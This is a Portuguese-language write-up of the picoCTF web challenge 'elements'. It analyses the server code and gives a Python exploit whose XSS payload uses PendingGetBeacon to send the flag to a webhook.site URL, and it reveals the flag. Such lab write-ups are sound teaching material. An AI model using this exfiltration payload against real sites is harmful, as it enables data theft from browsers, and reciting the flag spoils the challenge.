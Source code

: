 # WriteUp: elements
## Descrição do desafio
**Author**: ehhthing \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/447?category=1&page=4) \
**Categoria**: Web Exploitation \
**Dificuldade**: Difícil \
**Data**: 2024 \
**Descrição**:
> Insert Standard Web Challenge Here.
> Source code: elements.tar.gz.
> Craft some magic up here.

## Passo a Passo da Solução
### 1. Análise do código fonte
O desafio fornece os arquivos fonte do servidor (`elements.tar.gz`) por trás do website alvo. O principal arquivo a se notar é o `index.mjs`, nele descobrimos o path `/remoteCraft`. Esse path aceita um parameter chamado recipe, que passa pelas verificações:
``` javascript
if (url.pathname === '/remoteCraft') {
		try {
			const { recipe, xss } = JSON.parse(url.searchParams.get('recipe'));
			assert(typeof xss === 'string');
			assert(xss.length < 300);
			assert(recipe instanceof Array);
			assert(recipe.length < 50);
			for (const step of recipe) {
				assert(step instanceof Array);
				assert(step.length === 2);
				for (const element of step) {
					assert(typeof xss === 'string');
					assert(element.length < 50);
				}
			}
			visit({ recipe, xss });
		} catch(e) {
			console.error(e);
			return res.writeHead(400).end('invalid recipe!');
		}
return res.end('visiting!');
```
Reparamos na chamada da função `visit({ recipe, xss})`. Vamos examinar essa função:
``` javascript
async function visit(state) {
	if (visiting) return;
	visiting = true;

	state = {...state, flag }

	const userDataDir = await mkdtemp(join(tmpdir(), 'elements-'));

	await mkdir(join(userDataDir, 'Default'));
	await writeFile(join(userDataDir, 'Default', 'Preferences'), JSON.stringify({
		net: {
			network_prediction_options: 2
		}
	}));

	const proc = spawn(
		'/usr/bin/chromium-browser-unstable', [
			`--user-data-dir=${userDataDir}`,
			'--profile-directory=Default',
			'--no-sandbox',
			'--js-flags=--noexpose_wasm,--jitless',
			'--disable-gpu',
			'--no-first-run',
			'--enable-experimental-web-platform-features',
			`http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}`
		],
		{ detached: true }
	)

	await sleep(10000);
	try {
		process.kill(-proc.pid)
	} catch(e) {}
	await sleep(500);

	await rm(userDataDir, { recursive: true, force: true, maxRetries: 10 });

	visiting = false;
}
```
Podemos ver que essa função cria uma nova instância do chromium rodando dentro do servidor com uma aba aberta na url `http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}`. A variável state está armazenando tanto os paramêtros recipe e xss quanto a flag do desafio. \ 
Agora, se formos examinar o arquivo `index.js`, encontramos a função: 
``` javascript
const evaluate = (...items) => {
	const [a, b] = items.sort();
	for (const [ingredientA, ingredientB, result] of recipes) {
		if (ingredientA === a && ingredientB == b) {
			if (result === 'XSS' && state.xss) {
				eval(state.xss);
			}
			return result;
		}
	}
	return null;
}
```
Essa função é responsável por executar as receitas descritas no `state.recipe`. Contudo, se o resultado da tarefa for igual a XSS, qualquer código dentro de `state.xss` será executado.
### 2. Solucionando o desafio
A estratégia para solucionar o desafio começa encontrando um array recipe com a sequência correta de receitas que gera um elemento XSS. No código python `exploit.py`, a função `find_sequence` será responsável por encontrar este array:
``` python
def find_sequence():
    orig = ['Fire', 'Water', 'Earth', 'Air']
    dependencies = {}
    for r in all_recipes:
        dependencies[r[2]] = [r[0], r[1]]

    dep_graph = {}

    def trace_dependency(dep):
        if dep in dependencies:
            dep_graph[dep] = set(dependencies[dep])
            for d in dependencies[dep]:
                if d in orig:
                    continue
                trace_dependency(d)

    trace_dependency("XSS")

    ts = graphlib.TopologicalSorter(dep_graph)
    res_order = list(ts.static_order())

    res_lst = [dependencies[k] for k in res_order if k in dependencies]
    return res_lst
sequence = find_sequence()
```
Agora, precisamos criar uma forma de transferir dados da aplicação aberta no chromium do server para nosso computador. Para receber os dados, utilizaremos o website webhook.site. Para enviá-los do servidor, teremos que injetar algum código javascript pelo paramater xss. O servidor está bloqueando a maioria das formas de se comunicar com outros sites pelo navegador chromium, tal como o `fetch`. Contudo, observamos que foi habilitada a opção `--enable-experimental-web-platform-features`. Desse modo, é possível usar uma função chamada `PendingGetBeacon`: 
``` python
parameters = {
    "recipe": sequence, 
    "xss": 'let pd = new PendingGetBeacon(`https://webhook.site/6850a7e0-1488-4bd2-ad3b-cdc1db0f28b1/${state.flag}`); pd.sendNow();'
}

print(sequence)

encoded_params = urlencode({"recipe": json.dumps(parameters)})

url = f"{base_url}{path}?{encoded_params}"

print(f"URL gerada: {url}")

response = requests.get(url) 
print(response.text)
```
Recebemos no webhook: *picoCTF%7Blittle_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a%7D%20btw%20contact%20me%20on%20discord%20with%20ur%20solution%20thanks%20@ehhthing*
Decodificando-o obtemos: picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a} btw contact me on discord with ur solution thanks @ehhthing
Logo a flag é: picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a}

## Autor da WriteUp
[Membro de Networking - Luiz Felipe](https://github.com/LuizF14)
